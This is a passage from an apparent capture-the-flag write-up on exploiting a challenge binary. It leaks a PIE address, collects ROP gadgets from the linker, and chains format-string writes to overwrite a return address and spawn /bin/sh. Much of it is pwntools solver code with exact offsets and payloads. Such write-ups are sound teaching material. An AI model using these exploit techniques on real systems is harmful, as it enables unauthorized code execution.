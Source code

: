 And finally (Not really needed), we can get a PIE leak at offset 312.

```python
# PIE Leak
payload = 'A'*305 + 'B'*6
setBio(payload)
# r.interactive()
leak = showInfo().split(b'\n')

pie_leak = u64(leak[-1].ljust(8, b'\0'))
pie_base = (pie_leak - 0x10) << 8
```

Now, we can do a typical ret2libc. I'm not sure if the offset between the linker & the libc base is constant but with the leaks we currently have, we can always do that by either calculating the base directly or doing a leak & a second stage ROP chain. However, that's a lot of work to do, we can check our linker for gadgets & it surely have some good stuff!

Those are the gadgets we'll be using

```python
# ROP Gads
ADD_RSP_RET         = ld_base + 0x000000000001d085 # add rsp, 0x110; mov eax, r12d; pop r12; ret;
SYSCALL             = ld_base + 0x0000000000001a97 # syscall;
POP_RDI             = ld_base + 0x000000000000118d # pop rdi; ret;
POP_RSI             = ld_base + 0x0000000000001d28 # pop rsi; ret;
POP_RAX_RDX_RBX     = ld_base + 0x00000000000011ce # pop rax; pop rdx; pop rbx; ret;
```

Now, we'll start with the format strings! We'll be writing a format string that starts with a null byte in `birthday` field then overwriting the null byte using the one-time use format string. Then use a format string with a buffer stored in `birthday` to overwrite a return address with a ROP chain.

One problem the team that got too close faced was the length limit for the one-time use format string, 8 bytes. considering that an address is itself 8 bytes long! how would it be possible? Well, everything is stored in a struct remember? And that means, the fields are successive in memory. We don't have to store the addresses to be used by the format string in the same buffer! As long as we can index it, it's fine to store it a lil bit far.

This is the last part of the solver which does overwrite the first byte of the `birthday` payload:

```python
payload = b"/bin/sh\0" + b"\x90"*207 # Padding
payload += rop_chain
payload += b"\x98"*(112 - len(rop_chain)) # Pad

# Used by format string payload
payload += p64(ret_adr + 2*ADD_RSP_RET_BYTES.index(ADD_RSP_RET_BYTES_sorted[2])) # 59
payload += p64(ret_adr + 2*ADD_RSP_RET_BYTES.index(ADD_RSP_RET_BYTES_sorted[1])) # 60
payload += p64(ret_adr + 2*ADD_RSP_RET_BYTES.index(ADD_RSP_RET_BYTES_sorted[0])) # 61
payload += p64(date_adr) # used by setUName payload

setBio(payload)

payload = ".%96$hhn" # 1 dot to write \x01
log('SetUName', setUName(payload))
```
